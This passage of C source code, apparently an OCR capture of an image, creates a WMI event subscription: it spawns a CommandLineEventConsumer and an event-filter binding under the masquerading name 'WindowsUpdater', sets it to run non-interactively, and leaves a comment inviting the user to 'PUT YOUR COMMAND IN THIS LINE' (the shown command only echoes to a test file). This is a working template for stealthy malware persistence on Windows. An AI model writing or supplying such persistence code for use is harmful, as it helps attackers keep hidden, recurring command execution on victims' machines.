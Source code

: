 ```c
    }else{
        printf("Consumer class instance was properly spawned\n");
    }
    //14.Setting CommandLineEventConsumer Class Name Field

    V_VT(&v)=VT_BSTR;
    V_BSTR(&v)=SysAllocString(L"WindowsUpdater");

    BSTR ConsumerName =SysAllocString(L"Name");
    hres=pConsumerInstance->lpVtbl->Put(pConsumerInstance,ConsumerName,0,&v,0);
    VariantClear(&v);

    //15.Setting CommandLineEventConsumer Class RunInteractively Field

    V_VT(&v)=VT_BSTR;
    V_BSTR(&v)=SysAllocString(L"false");

    BSTR ConsumerRunI =SysAllocString(L"RunInteractively");
    hres=pConsumerInstance->lpVtbl->Put(pConsumerInstance,ConsumerRunI,0,&v,0);
    VariantClear(&v);


    //16.Setting CommandLineEventConsumer Class CommandLineTemplate Field

    V_VT(&v)=VT_BSTR;
    //PUT YOUR COMMAND IN THIS LINE
    V_BSTR(&v)=SysAllocString(L"cmd /C echo Success >> C:\\test.txt");

    BSTR ConsumerCommand =SysAllocString(L"CommandLineTemplate");
    hres=pConsumerInstance->lpVtbl->Put(pConsumerInstance,ConsumerCommand,0,&v,0);


    hres=pServices->lpVtbl->PutInstance(pServices,pConsumerInstance,WBEM_FLAG_CREATE_OR_UPDATE,0,0);
    if (FAILED(hres)){
        printf("Modified Event CommandLineEventConsumer Instance was unable to be written\n");
        goto cleanup;
    }else{
        printf("CommandLineEventConsumer class instance was properly written\n");

    }


    //17.Getting __FiltertoConsumerBinding Class
    hres=pServices->lpVtbl->GetObject(pServices,binderclass,0,NULL,&pBinder,NULL);
    if (FAILED(hres)){
        printf("__FiltertoConsumerBinding class was not properly connected ");
        goto cleanup;
    }else{
       printf("__FilterToConsumerBinding class was properly connected\n");
    }
    //18.Spawning Binder Class
     hres=pBinder->lpVtbl->SpawnInstance(pBinder,0,&pBinderInstance);
     if (FAILED(hres)){
        printf("FilterToConsumerBinding class instance wasn't properly spawned\n");
    }else{
        printf("FilterToConsumerBinding class instance was properly spawned\n");
    }
    //19.Setting the EventFilter rel path
     V_VT(&v)=VT_BSTR;
     V_BSTR(&v)=SysAllocString(L"__EventFilter.Name=\"WindowsUpdater\"");;

    BSTR Filter = SysAllocString(L"Filter");
```